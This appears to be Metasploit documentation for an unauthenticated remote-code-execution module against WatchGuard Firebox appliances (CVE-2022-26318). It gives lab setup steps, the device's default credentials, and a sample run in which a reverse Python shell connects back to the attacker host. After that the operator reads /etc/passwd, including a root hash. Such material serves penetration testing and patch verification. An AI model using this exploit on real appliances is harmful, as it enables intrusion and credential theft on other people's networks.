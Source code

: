 ## Vulnerable Application
This module exploits a buffer overflow at the administration interface (8080 or 4117) of WatchGuard Firebox and XTM appliances
which is built from a cherrypy python backend sending XML-RPC requests to a C binary called `wgagent` using pre-authentication
endpoint `/agent/login`.
This vulnerability impacts Fireware OS before 12.7.2_U2, 12.x before 12.1.3_U8, and 12.2.x through 12.5.x before 12.5.9_U2.
Successful exploitation results in remote code execution as user `nobody`.

## Installation
### Installation steps to install Watchguard Firebox virtual appliance
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download the Watchguard Firebox `12.7.2` ova instance.
* You can download it from [here](https://cdn.watchguard.com/SoftwareCenter/Files/XTM/12_7_2/FireboxV_12_7_2.ova).
* Import the ova instance in your virtualization engine.
* See instructions for VirtualBox [here](https://www.simplified.guide/virtualbox/vm-import).
* Configure the network interfaces (first interface is WAN and second interface is internal).
* You can either choose bridged or NAT depending on your preference for the test environment.
* Boot up the Firebox VM.
* You should be able to access the Watchguard Firebox either thru the console, `ssh` on port `4117`
* or via the `webui` via `https://your_firebox_wan_ip:8080`.
* The default account is `admin` and password is `readwrite`.

You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/watchguard_firebox_unauth_rce_cve_2022_26318`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Automatic>`
- [x] `exploit`

you should get a `interactive python shell` .

```shell
msf6 exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > options

Module options (exploit/linux/http/watchguard_firebox_unauth_rce_cve_2022_26318):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                         using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       WatchGuard Firebox base url
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CreateSession  true             no        Create a new session for every successful login
   LHOST                           yes       The listen address (an interface may be specified)
   LPORT          4444             yes       The listen port
   SHELL          /usr/bin/python  yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Reverse Python Interactive Shell)

View the full module info with the info, or info -d command.
```

## Options
Please set the `SHELL` option to `/usr/bin/python` becuase this is the only shell available on the appliance.

## Scenarios
###  Watchguard Firebox  Automatic - cmd/unix/reverse_python
```shell
msf6 exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > set rhosts 192.168.201.24
rhosts => 192.168.201.24
msf6 exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.24:8080 can be exploited.
[+] The target appears to be vulnerable.
[*] 192.168.201.24:8080 - Attempting to exploit...
[*] 192.168.201.24:8080 - Sending payload...
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.24:40354) at 2024-03-03 19:50:17 +0000


Shell Banner:
Python 2.7.14 (default, Oct 16 2019, 15:38:29)
[GCC 6.5.0] on linux2
-----

>>> import os
>>> import subprocess
>>> os.listdir("./")
['debug', 'platform', 'log', 'wgapi', 'hosts', 'mdev.seq', 'admd.rsync', 'portald', 'portald_data', 'eth0mac', 'rs_sn', 
'.libtdts_ctrl.lck', 'fw', 'mwan.input', 'wgmsg', 'nwd_dfltmac', 'fqdn_dns_server_list', 'lm.conf', 'sw.conf', 'wcfqdn_label',
'ifmd.cfg.lock', 'wgif_dhcp_eth0.pid', 'wgif_dhcp_eth0_uds', 'wgif_eth1.cfg.lock', 'wgif_eth1.cfg', 'rootca', 'haopevent.log',
'keeper_init_uds', 'sslvpn', 'empty', 'certs.rsync', 'certs.unpack', 'csync', 'ldapsCA', 'iked.semid', 'system_hash.txt',
'iked.params', 'iked.pid', 'cdiag', 'lockout_users.xml', 'dxcpd', 'wgredir.txt', 'dimension', 'affinityd.err', 'wgif_eth0.cfg.lock',
'wgif_eth0.cfg', 'dhcp6d.conf', '6OGD.py', 'ifmd.cfg', 'dhcpd.conf', 'dnsmasq-internal.conf', 'radvd.conf', 'yDnm.py', 'HPM4.py']
>>>
>>> os.getuid()
99
>>> os.getgid()
96
>>> print(open("/etc/passwd").read())
root:!$6$XlAENt8.$3RgXuDXBhgsf0FqJ0hrzmrh6qAhvMlCkU6Z976KIDI27gxIZOI0f27lkyJwubRxW5VaO4i9olIybS0Z2R9Ihw1:0:0:Administrator:/root:/bin/ash
bin:x:1:1:bin:/bin:
system:x:2:96:WG System daemons:/:
nobody:x:99:99:Nobody:/:
wgntp:x:98:98:OpenNTP daemon:/var/run/ntpd:
openvpn:x:97:97:OpenVPN daemon:/:
www:x:96:95:WebUI:/:
cli:x:95:95:CLI:/:
cfm:x:94:94:CFM:/var/cfm_sandbox:
agent:x:93:96:WG Agent:/:
scand:x:91:94:Scanning Daemon:/var/run/scand:
spamd:x:90:94:Spam Daemon:/var/cfm_sandbox:
sshd:x:89:89:sshd privilege separation:/var/empty:
quagga:x:88:88:Quagga Dynamic Routing:/var/run/quagga:
wgcha:x:92:96:WG Call Home Agent:/var/run/wgcha:
netdbg:x:87:87:Diagnostic Utilities:/tmp/netdbg:
cwagent:x:100:100:ConnectWise Agent:/var/empty:
dimension:x:101:101:Dimension Service:/var/run/dimension:
tss:x:102:102:trousers daemon:/:
atagent:x:103:103:Autotask Agent:/var/empty:
psad:x:104:104:PSA Daemon:/var/empty:
guac:x:105:105:Guacamole Daemons:/var/run/guac:
portald:x:106:105:Portald:/var/run/portald:
admin:x:109:109:Admin Cli Access:/etc/wg/admin-home:/usr/bin/cli
wgadmin:x:109:109:Admin Cli Access:/etc/wg/admin-home:/usr/bin/cli
dnswatchd:x:110:96:DNSWatch Service Daemon:/var/empty:
tpagent:x:111:96:Tigerpaw Agent:/var/empty:

>>> print(open("/etc/group").read())
admin:x:0:0
bin:x:1:admin,bin
nobody:x:99:
wgntp:x:98:
openvpn:x:97:
wg:x:96:
ui:x:95:
proxy:x:94:
sshd:x:89:
quagga:x:88:
netdbg:x:87:
cwagent:x:100:
dimension:x:101:
tss:x:102:
atagent:x:103:
psad:x:104:
ctlvpn:x:105:
dnswatchd:x:107:

>>> os.uname()
('Linux', 'FireboxV', '4.14.83', '#1 SMP Mon Sep 27 17:48:07 PDT 2021', 'x86_64')
>>>
```
## Limitations
There is no `shell` installed and there is only a `busybox` version available with a very limited unix command set.
The only option is to use the interactive python shell (`/usr/bin/python -i`) as payload to get access to the target.
Check out `https://docs.python.org/2.7/library/os.html` to execute commands on the target.
Another limitation is the crash of `wgagent` service that will show up in the diagnostic log and will break the user login via the `webui`.

